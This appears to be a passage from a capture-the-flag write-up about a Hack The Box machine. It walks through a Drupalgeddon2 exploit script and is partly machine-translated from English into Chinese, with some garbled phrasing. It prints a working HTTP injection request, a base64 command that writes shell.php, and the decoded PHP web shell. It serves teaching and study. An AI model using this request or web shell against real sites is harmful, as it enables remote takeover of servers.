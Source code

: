 The field is set to a command. I’m not going to dive too much deeper into the details of why this executes - [This post](https://research.checkpoint.com/2018/uncovering-drupalgeddon-2/) from Checkpoint does a really nice job going into the details. But to see what the script does, it first sends the request above with the final bit being . This is just to verify that the exploit works. Then it tries to talk to the backdoor (presumably to see if it’s already uploaded). When that fails (404), it sends the next request:`name[%23markup]``echo VQMJGJAU`

    POST /?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo%20PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9%20|%20base64%20-d%20|%20tee%20shell.php HTTP/1.1
    User-Agent: drupalgeddon2
    Connection: close
    Host: 127.0.0.1:8888
    Content-Length: 47
    Content-Type: application/x-www-form-urlencoded
    
    form_id=user_pass&_triggering_element_name=name
    

这次的命令是：

    echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
    

base64 字符串被注入以对其进行解码，然后将其输出到粘贴中_并将其_写入 。`base64``tee``shell.php`

该命令解码为 PHP 网页外壳：

    <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
    

现在有一个请求是成功的（运行命令以设置提示），现在它留给用户发出其他命令。`shell.php``hostname`

[查看原网页: 0xdf.gitlab.io](https://0xdf.gitlab.io/2021/07/24/htb-armageddon.html)